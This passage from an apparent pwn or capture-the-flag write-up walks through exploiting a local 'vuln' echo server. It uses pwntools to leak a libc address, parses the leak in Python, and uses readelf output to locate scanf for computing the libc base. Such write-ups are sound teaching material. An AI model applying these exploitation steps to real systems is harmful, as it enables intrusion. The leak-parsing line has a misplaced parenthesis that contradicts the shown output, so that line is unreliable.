 Running the py script that sends the payload, we get 

```
(Linux Pwn Venv) asdiml@DESKTOP-XXXXXX:~$ ./attempt.py
[+] Starting local process './vuln': pid 2466
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
0\x7fFK*\x7f
WeLcOmE To mY EcHo sErVeR!
$
```

The leaked address should be `FK*\x7f`, just that \x7f is not ASCII-printable. Appending the following code to our script, 

```python
p.recvline() # Ignore unimportant program output
p.recvline()
leak = u64(p.recvline().strip()).ljust(8, b"\x00") # Strip newline, preface bytestring (assume endianness isn't a thing) with null bytes until it is 8 bytes long
log.info(f"{hex(leak)=}")
```

we get: 

```
(Linux Pwn Venv) asdiml@DESKTOP-XXXXXX:~$ ./attempt.py
[+] Starting local process './vuln': pid 2488
[*] hex(leak)='0x7fc81ca00f30'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
$
```

As seen, the hexadecimal value of the leak is logged. 

> **Note**
> log.info() adds the leading [*] to the output so we can ascertain that it is from our Python script and not the executable

Now, we can calculate the offset between the leaked function and desired function in libc. To do that, we will first find the base address of libc, which is can achieve by finding the address of scanf within the libc used. Thus, we run `readelf -s ./libc.so.6 | grep scanf`, where -s flag displays the symbol table, giving: 

```
asdiml@DESKTOP-XXXXXX:~$ readelf -s ./libc.so.6 | grep scanf
   440: 0000000000082df0    20 FUNC    GLOBAL DEFAULT   13 vwscanf@@GLIBC_2.2.5
   469: 0000000000073510     7 FUNC    WEAK   DEFAULT   13 vfscanf@@GLIBC_2.2.5
   793: 0000000000088870    20 FUNC    WEAK   DEFAULT   13 vscanf@@GLIBC_2.2.5
   993: 0000000000082d30   177 FUNC    GLOBAL DEFAULT   13 fwscanf@@GLIBC_2.2.5
  1364: 000000000007b180   177 FUNC    GLOBAL DEFAULT   13 sscanf@@GLIBC_2.2.5
  1408: 000000000007afe0     7 FUNC    WEAK   DEFAULT   13 vfwscanf@@GLIBC_2.2.5
  1479: 000000000007aff0   177 FUNC    GLOBAL DEFAULT   13 fscanf@@GLIBC_2.2.5
  1642: 0000000000083020   177 FUNC    GLOBAL DEFAULT   13 swscanf@@GLIBC_2.2.5
  1960: 0000000000081790   163 FUNC    WEAK   DEFAULT   13 vsscanf@@GLIBC_2.2.5
  2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
  2115: 0000000000082f70   168 FUNC    GLOBAL DEFAULT   13 vswscanf@@GLIBC_2.2.5
  2219: 0000000000082c60   197 FUNC    GLOBAL DEFAULT   13 wscanf@@GLIBC_2.2.5
```
